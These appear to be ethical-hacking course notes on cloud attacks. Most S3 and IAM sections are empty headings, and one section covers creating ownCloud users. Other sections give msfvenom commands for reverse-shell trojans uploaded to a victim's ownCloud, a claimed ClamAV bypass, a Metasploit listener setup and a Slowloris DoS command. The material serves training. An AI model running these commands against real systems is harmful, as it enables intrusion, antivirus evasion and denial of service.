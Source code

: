 # Module 19 - Cloud Computing #

## Perform S3 Bucket Enumeration ##

### lazys3 ###

### S3Scanner ###


- - - -

## Exploit S3 Buckets ##

### AWS CLI ###


- - - -

## Perform Privilege Escalation ##

### Escalate IAM User Privileges by Exploiting Misconfigured User Policy ###


- - - - 

## Creating User Accounts and Assigning User Rights ##
### ownCloud ###
1. Login as Admin into ``` http://localhost/owncloud ``` (There's also a client desktop app).
2. Right Menu > 'Users'
3. Enter the username and password into the 'Username' and 'Password' fields, select the Groups it will belong to and click on 'Create'
4. Left Menu > 'Files'
5. Add Icon > Select a folder to add > 'Share'
6. Double Click the newly added folder > Add > Upload a file
7. Go back to the Files section
8. Select the three dots in the newly added folder > 'Details' > 'Sharing' > Add the new user
9. Select the sharing permissions of the new user (Share and Edit)

In the desktop client app, you can access, copy, add, delete... the files and folders from the computer to _ownCloud_, such as with _OneDrive_.


- - - -

## Securing ownCloud from Malicious File Uploads ##
Create the Trojan (``` msfvenom -p windows/meterpreter/reverse_tcp -f exe > <Output Path>/trojan.exe ```) and upload it to ``` http://<Victim IP>/owncloud ```.

### ClamAV ###
It will detect the Trojan and stop the upload.


- - - -

## Bypassing ownCloud Antivirus and Hacking the Host ##
1. Create a malicious file (``` msfvenom -p linux/x86/shell/reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> --platform linux -f elf > <Output Path>/exploit.elf ```) and upload it to ``` http://<Victim IP>/owncloud ```.
2. ClamAV will not detect it because we've changed the payload architecture.
3. ``` msfconsole ``` > ``` use multi/handler ``` > ``` set payload linux/x86/shell/reverse_tcp ```, ``` set LHOST <Attacker IP> ```, ``` set LPORT <Attacker Port> ```, ``` exploit ```
4. Now, from the victim machine download the ``` exploit.elf ``` file, change its permissions (``` chmod -R 755 exploit.elf ```) and execute it (``` ./exploit.elf ```).
5. In the attacker machine, if Meterpreter does not start automatically interacting with the victim, type: ``` sessions -i 1 ```.


- - - -

## Implementing DoS Attack on Linux Cloud Server ##

### Slowloris Script ###
1. Go to the Slowloris folder (``` cd Desktop/Slowloris/ ```)
2. Change the permissions to the main file ``` chmod 777 Slowloris.pl ```
3. Perform the DoS attack: ``` ./Slowloris.pl -dns <Target IP> ```
